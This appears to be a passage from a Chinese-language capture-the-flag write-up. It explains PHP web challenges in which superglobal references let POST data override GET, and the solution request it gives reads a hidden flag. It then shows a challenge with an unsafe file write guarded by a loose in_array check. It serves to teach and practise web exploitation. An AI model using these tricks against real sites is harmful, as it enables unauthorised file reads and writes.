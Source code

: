 ```
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
```

如果传的flag='flag',则把COOKIE传参地址给get,否则让其等于'flag'

```
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag'; 
```

如果传的flag='flag',则把SERVER传参地址给get,否则让其等于'flag'

```
$_GET['HTTP_FLAG']=='flag'?$flag:__FILE__
```

如果传入的HTTP_FLAG=‘flag'显示$flag，否则显示当前页面



如果我们直接用get方式传入

```
?HTTP_FLAG=flag
```

由于存在GET传参，会把post传参地址给get

所以这里我们随便用get方式传入一个，然后用post覆盖掉

```
?num=1111

post:HTTP_FLAG=flag
```

即可highlight_file($flag)，因为$flag不是php文件，所以会导致报错而回显$flag的值



### web99

```
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?> 
```

`array_push`

> array_push — 将一个或多个单元压入数组的末尾（入栈）

`in_array`

> 检查数组中是否存在某个值，如果没有设置第三个参数，则使用宽松的比较，先将字符串转化为i数字，再比较
